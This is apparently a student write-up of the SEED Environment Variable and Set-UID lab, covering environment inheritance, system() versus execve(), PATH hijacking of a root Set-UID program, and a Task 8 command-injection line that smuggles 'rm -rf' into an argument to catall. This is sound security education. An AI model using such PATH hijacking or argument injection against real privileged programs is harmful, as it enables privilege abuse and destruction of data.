 ## Environment Variable and Set-UID Lab

###  Task 1

- Use of ```printenv``` to print out the environment variables:
 ```
$ printenv PWD
/Users/duartemarques/Desktop/FSI
 ```

- Use of ```export``` and ```unset``` to set or unset environment variables:
 ```
$ export var="try"
$ printenv var
try
$ unset var
$ 
```

###  Task 2

- We compiled the ```myprintenv.c``` program using the command:
```
$ gcc myprintenv.c
$ ./a.out > file
```
- After successful compilation, we executed the program and an executable file named a.out was created along with the output file named ```file```.
```
$ ./a.out > file2
$ diff file file2
```
- After running and compiling the code again, another file was created and we concluded that the output from both files is the same, showing that the environment variables are consistent across both processes. This indicates that both the parent and child processes share the same environment variables at the time of the child's creation.

###  Task 3
- We compiled the ```myenv.c``` program using the command:
```
$ gcc myenv.c -o myenv
$ ./myenv
```
- After successful compilation, we executed the program and an executable file named ```myenv``` was created along with the output file named ```file3```.
```
$ myenv > file3
```
- Upon analyzing ```file3```, we noticed that it was empty. The environment variables were not being accessed properly by the program. This was due to the environment pointer not being set correctly — it was pointing to NULL.
- After changing the file from ```NULL``` to the variable ```environ```, running and compiling the code again, another file was created:
```
$ gcc myenv.c -o myenv
$ ./myenv
$ myenv > file4
```
- This time, the output in ```file4``` correctly displayed the environment variables, indicating that the program was now properly accessing and printing them.

### Task 4
- We created a new file ```task4.c``` with the following code:
```
#include <stdio.h>
#include <stdlib.h>
int main()
{
system("/usr/bin/env");
return 0 ;
}
```
- Then we compiled and ran that file:
```
$gcc task4.c -o task4
$ ./task4
```
- The ```system()``` function effectively passes all the environment variables from the parent process to the command it executes. Unlike ```execve()```, which directly replaces the process, ```system()``` runs a shell first, allowing it to inherit the environment variables.

### Task 5
- We created a new file ```foo``` with the following code:
```
#include <stdio.h>
#include <stdlib.h>
extern char **environ;
int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
```

```
$ gcc -o foo foo.c
```
After running this comand, the file was compiled and an executable named foo was created.

```
$ sudo chown root foo
$ sudo chmod 4755 foo
```
- The first command changes the owner of the executable ```foo``` to the root user, meaning the program is now owned by the superuser.
- The second changes foo's file permissions and enables Set-UID. The ```chmod``` change mode command  sets the permissions to 4755, where ```4``` activates Set-UID, allowing the program to run with the file owner's (root's) privileges. The ```755``` grants the owner read, write, and execute rights, while others get read and execute rights. With Set-UID enabled, ```foo``` will run with root privileges, even when executed by a regular user.

```
$ export PATH=$PATH:/Documents/Labsetup
$ export LD_LIBRARY_PATH=/Downloads
$ export UNIVERSITY_NAME=Feup`
```

- We ran the code after these export commands and this was the result:
![Image 1 - Task 5 overview.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task5.jpeg)
*Image 1 - Task 5 overview.*

- Checking the output, we conclude that variables like ```PATH``` and custom variables (```UNIVERSITY_NAME```) were inherited and modified by child processes, while environment variables like ```LD_LIBRARY_PATH``` and others may not be passed to child processes for security reasons, to prevent the execution of unintended libraries and protect the system from vulnerabilities.



### Task 6

- First, we created the new file ```task6.c``` with the following code:
```
int main()
{
  system("ls");
  return 0;
}
```
- Then we compiled that file:
```
$ gcc task6.c -o task6
```
- To escalate the privileges of our program, we changed its owner to root and set the Set-UID permission, allowing it to run with the privileges of the file owner (root):
```
$ sudo chown root task6
$ sudo chmod 4755 task6
```
- Next, we created a malicious program named ```ls.c```. The goal of this program is to replace the behavior of the ls command when invoked by our task6 program.
```
int main()
{
  echo("EXECUTING MALICIOUS SCRIPT\n");
  return 0;
}
```
And compiled it:
```
$ gcc ls.c -o ls
```
To ensure our malicious program is executed instead of the original ls command, we modified the PATH environment variable:
```
$ export PATH=/home/seed/Desktop/Labsetup:$PATH
```
Finally, we ran the task6 program. Since it calls ```system("ls")``` without specifying an absolute path, it will find our malicious ls executable first, executing our code instead of the original ls command.
In this case, we created malicious code whose execution would print a message:

![Image 2 - Task 6 overview.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task6.jpeg)
*Image 2 - Task 6 overview.*

### Task 8

- First we started by compiling the file ```catall.c``` and made it a root-owned Set-UID program:
```
$ gcc catall.c -o catall
$ sudo chown root catall
$ sudo chmod 4755 catall
```
- We created a new file called ```secretfile.txt``` then we altered the permissions so that the user seed can´t remove it or modify it:
```
$ sudo chown root:root /home/seed/Labsetup/secretfile.txt
$ sudo chmod 400 /home/seed/Labsetup/secretfile.txt
```
- Since ```system()```, used in  ```catall.c```, relies on the shell, if Bob manipulates the PATH environment variable, he could trick the program into running a malicious version of cat.
- We used the program to inject a command that will remove the ```secretfile.txt```:
```
$ ./catall "; rm -rf /home/seed/Labsetup/secretfile.txt"
```
To sum up, the use of ```system()``` in Set-UID programs is dangerous because it allows command injection and permission abuse. A best practice would be to replace ```system()``` with ```execve()```, which does not invoke the shell and is therefore not vulnerable to this type of attack.

